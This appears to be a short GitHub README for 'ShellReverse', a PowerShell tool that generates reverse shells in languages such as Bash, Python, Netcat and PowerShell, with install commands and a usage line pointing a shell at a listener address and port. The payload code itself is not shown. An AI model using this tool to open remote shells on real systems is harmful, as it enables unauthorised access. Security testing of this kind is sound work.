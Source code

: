 # ShellReverse

# Install in Debian or Kali

    git clone https://github.com/Hackplayers/ReverseShell
    cd shellreverse
    sudo apt-get update > /dev/null
    wget http://http.us.debian.org/debian/pool/main/libu/libunwind/libunwind8_1.1-4.1_amd64.deb 
    sudo dpkg -i libunwind8_1.1-4.1_amd64.deb
    wget http://archive.ubuntu.com/ubuntu/pool/main/i/icu/libicu55_55.1-7_amd64.deb
    sudo dpkg -i  libicu55_55.1-7_amd64.deb
    wget https://github.com/PowerShell/PowerShell/releases/download/v6.0.0-alpha.13/powershell_6.0.0-alpha.13-1ubuntu1.16.04.1_amd64.deb
    sudo dpkg -i powershell_6.0.0-alpha.13-1ubuntu1.16.04.1_amd64.deb
    powershell
    ./shell-reverse.ps1 -LHOST 192.168.1.20 -LPORT 4444 -Lenguaje

# Languaje
&nbsp;&nbsp;&nbsp;**Perl**&nbsp;&nbsp;  
&nbsp;&nbsp;&nbsp;**Python**&nbsp;&nbsp;  
&nbsp;&nbsp;&nbsp;**Python3**&nbsp;&nbsp;  
&nbsp;&nbsp;&nbsp;**Ruby**&nbsp;&nbsp;  
&nbsp;&nbsp;&nbsp;**PHP**&nbsp;&nbsp;  
&nbsp;&nbsp;&nbsp;**Java**&nbsp;&nbsp;  
&nbsp;&nbsp;&nbsp;**Bash**&nbsp;&nbsp;  
&nbsp;&nbsp;&nbsp;**Netcat**&nbsp;&nbsp;  
&nbsp;&nbsp;&nbsp;**PowershellTCP**&nbsp;&nbsp;  
&nbsp;&nbsp;&nbsp;**PowerrshellUDP**&nbsp;&nbsp;  
&nbsp;&nbsp;&nbsp;**PowershellICMP**&nbsp;&nbsp;  
  

# Video Example
![](https://github.com/cybervaca/ShellReverse/blob/master/example.gif)

# AutoUpdate to Meterpreter
